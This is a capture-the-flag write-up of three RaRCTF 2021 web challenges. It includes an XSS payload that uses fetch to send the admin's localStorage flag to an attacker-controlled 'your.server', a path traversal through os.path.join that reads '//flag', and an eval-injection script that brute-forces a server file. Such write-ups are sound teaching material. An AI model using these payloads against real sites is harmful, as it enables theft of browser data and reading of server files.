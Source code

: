```yaml
---
title: "RaRCTF2021: Some simpler web probz"
date: 2021-08-09T13:49:21-07:00
draft: false
comments: false
toc: true
images:
categories:
  - writeups
tags: 
  - writeups
  - xss
  - command-injection
  - web
---
```


## Fancy Button Generator // FBG

A simple xss challenge with the slightest of twists: instead of stealing admin cookies, you're stealing admin's localstorage values. This was possible because the admin, which was a puppetteer chrome browser, was operating in no-sandbox mode. 

Insert as your payload:
```
title: eh
link: javascript:fetch('your.server?fleg='%2B(window.localStorage.getItem("flag")));

```

And report to admin. Careful with the wait times...

NOTE: I first-blooded this challenge before certain measures were implemented. There were some issues with FBG throughout the competition that involved the organizers making amendments and introducing a pow to help with the stability of the infrastructure. I'm not aware of how the solution would have looked with the accompanying pow, unfortunately. 

flag: `rarctf{th0s3_f4ncy_butt0n5_w3r3_t00_cl1ck4bl3_f0r_u5_a4667cb69f}`

## Secure Uploader 

In the provided source, observe this piece of code: 

```py
@app.route('/file/<id>')
def file(id):
    conn = db()
    cur = conn.cursor()
    cur.execute("select path from files where id=?", (id,))
    res = cur.fetchone()
    if res is None:
        return "File not found", 404
    with open(os.path.join("uploads/", res[0]), "r") as f:
        return (os.path.join("uploads/", res[0]))
```

python's `os.path.join` is a unique thing: its purpose is to concat the provided parameters, appending one after the other with a `/` character in between. As an example, `os.path.join('foo','bar')` would produce `foo/bar`. However, specify an absolute filepath as a parameter, and everything before that string will be erased. So, `os.path.join('foo', '/bar')` would produce just `/bar`. We can use this knowledge to provide to the challenge a filename such as `//flag` which will resolve to retrieve the flag kept in the root directory of the docker container hosting the challenge. 

flag: `rarctf{4lw4y5_r34d_th3_d0c5_pr0p3rly!-71ed16}`

## MAAS 1//Calculator
The first part of "Microservices as a Service" was a challenge that involved improper use of the python function `eval()`. 

In the provided source, we see some very interesting code in `arithmetic/app.py`:

```python
@app.route('/arithmetic', methods=["POST"])
def arithmetic():
    if request.form.get('add'):
        r = requests.get(f'http://arithmetic:3000/add?n1={request.form.get("n1")}&n2={request.form.get("n2")}')
    elif request.form.get('sub'):
        r = requests.get(f'http://arithmetic:3000/sub?n1={request.form.get("n1")}&n2={request.form.get("n2")}')
    elif request.form.get('div'):
        r = requests.get(f'http://arithmetic:3000/div?n1={request.form.get("n1")}&n2={request.form.get("n2")}')
    elif request.form.get('mul'):
        r = requests.get(f'http://arithmetic:3000/mul?n1={request.form.get("n1")}&n2={request.form.get("n2")}')
    result = r.json()
    print(result)
    res = result.get('result')
    if not res:
        return str(result.get('error'))
    try:
        res_type = type(eval(res))
        if res_type is int or res_type is float:
            return str(res)
        else:
            return "Result is not a number"
    except NameError:
        return "Result is invalid"
```

This would run when you perform any arithmetic action using the calculator. When using the calculator, if you try to do an addition formula like "1+1", the returned result isn't 2, but "11". Why is that?

The program passes your code into `eval()`, but the result of that `eval()` isn't returned anywhere. If the eval'd result was an integer, then the _string_ that was passed as a parameter to `eval()` would be returned, hence why "11" is returned as the result of "1+1". However, `eval()` is called nonetheless, and we can use this to our advantage.

First and foremost, if the result of the eval was a number (int or float), then the string is returned. Else, "Result is not a number" or "Result is invalid" is returned. We could use this as a boolean condition with the following string: 

```
eval("1 if (open('../flag.txt','r').read(-1).startswith('rarctf{')) else 'false'")
``` 

We can instead put this as our "arithmetic" equation. Since the POST request made to the endpoint requires 2 params to be operated on, "n1" and "n2", split this statement into 2 arbitrary halves and put 1 half into the "n1" param, and the other into the "n2" param.

What this does is it calls `eval()` once more, but in this 2nd call we have more freedom to stipulate what can be evaluated. The param to the inner `eval` is just an if statement that returns the integer `1` if `(open('../flag.txt','r').read(-1).startswith('rarctf{'))` returns the boolean value true, or returns the string `'false'` if the statement returns the boolean value false. 

Therefore, if the contents of `flag.txt` start with the prefix "rarctf{", then the `eval()` functions will return 1, and the maas program would return the whole string as a result. If it doesn't start with that prefix, then the `eval()` functions would return the string 'false' and the if statement that checks the `res_type` would not return our string. From here, we can just continue to add characters to the prefix to brute-force the value of the flag that way: if we get back our string, then the character we guessed is in the flag. If we get back either "Result is not a number" or "Result is invalid" (or just if the response text has the keyword "Result"), then the character we guessed is not in the flag.

```py
import requests

url = "https://maas.rars.win/calculator"

alphabet = 'abcdefghijklmnopqrstuvwxyz1234567890_-{}'

prefix = 'rarctf{'

#I just chose 40 arbitrarily. If the flag was longer, I would have increased the range.
for index in range(0, 40):
    for c in alphabet:
        #our string. We will bruteforce the flag character by character. By convention, we at least know the flag starts with 'rarctf{'
        req = "eval(\"1 if (open('../flag.txt','r').read(-1).startswith('" + prefix + c + "')) else 'false'\""
        #I split the string between the n1 and n2 params arbitrarily. It doesnt matter how you split them.
        data = {"mode": "arithmetic", "n1": req, "add": "+", "n2": ")"}
        resp = requests.post(url, data)
        #if we dont find the word "Result" in the response to our request above, then that means the character we guessed is in the flag!
        if (resp.text.find("Result") == -1) and (resp.status_code != 500):
            prefix += c
            print(prefix)
            continue
```

flag: `rarctf{0v3rk1ll_4s_4_s3rv1c3_3fca0faa}`

part 2: coming soon :)

**Vie**